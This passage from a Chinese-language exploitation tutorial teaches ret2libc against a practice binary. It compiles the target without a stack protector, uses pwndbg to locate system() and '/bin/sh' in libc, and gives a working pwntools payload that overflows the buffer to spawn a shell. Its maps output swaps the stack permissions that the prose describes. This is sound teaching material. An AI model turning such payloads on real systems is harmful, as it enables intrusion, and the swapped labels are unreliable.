 ### 0x02 Ret2libc – Bypass DEP 通过ret2libc绕过DEP防护

现在我们把`DEP打开`，依然`关闭stack protector`和`ASLR`。编译方法如下：

``` bash
gcc -fno-stack-protector -o level2 level2.c
```

这时候我们如果使用level1的exp来进行测试的话，系统会拒绝执行我们的shellcode。如果你通过sudo cat /proc/[pid]/maps查看，你会发现`level1`的`stack`是`rwx`的，但是`level2`的`stack`却是`rw`的。

``` bash
level1:   bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
level2:   bffdf000-c0000000 rwxp 00000000 00:00 0          [stack]
```

那么如何执行shellcode呢？我们知道level2调用了`libc.so`，并且libc.so里保存了大量可利用的函数，我们如果可以让程序执行`system(“/bin/sh”)`的话，也可以获取到shell。既然思路有了，那么接下来的问题就是如何得到`system()`这个`函数的地址`以及`”/bin/sh”`这个`字符串的地址`。

如果`关掉了ASLR`的话，system()函数在内存中的地址是不会变化的，并且libc.so中也包含”/bin/sh”这个字符串，并且这个字符串的地址也是`固定的`。那么接下来我们就来找一下这个函数的地址。这时候我们可以使用gdb进行调试。然后通过`print`和`searchmem`命令来查找system和”/bin/sh”字符串的地址。

``` bash
$ gdb level2
pwndbg> b main
Breakpoint 1 at 0x804846e
pwndbg> run
Starting program: /home/buffer/桌面/practice/ROP_x86/0x02/level2
......
 ► f 0  804846e main+14
   f 1 f7e1a637 __libc_start_main+247
Breakpoint main
pwndbg> print system
$1 = {<text variable, no debug info>} 0xf7e3cda0 <__libc_system>
pwndbg> print __libc_start_main
$2 = {int (int (*)(int, char **, char **), int, char **, int (*)(int, char **, char **), void (*)(void), void (*)(void), void *)} 0xf7e1a540 <__libc_start_main>
pwndbg> searchmem "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5da0b ("/bin/sh")
```

我们首先在main函数上下一个断点，然后执行程序，这样的话程序会加载libc.so到内存中，然后我们就可以通过”print system”这个命令来获取system函数在内存中的位置，随后我们可以通过” print __libc_start_main”这个命令来获取`libc.so`在内存中的`起始位置`，接下来我们可以通过searchmem命令来查找”/bin/sh”这个字符串。这样我们就得到了`system`的地址`0xf7e3cda0`以及`"/bin/sh"`的地址`0xf7f5da0b`。下面我们开始写exp：

``` python
#!/usr/bin/env python
from pwn import *

p = process('./level2')
#p = remote('127.0.0.1',10002)

ret = 0xdeadbeef
systemaddr=0xf7e3cda0
binshaddr=0xf7f5da0b

payload =  'A'*140 + p32(systemaddr) + p32(ret) + p32(binshaddr)

p.send(payload)

p.interactive()
```
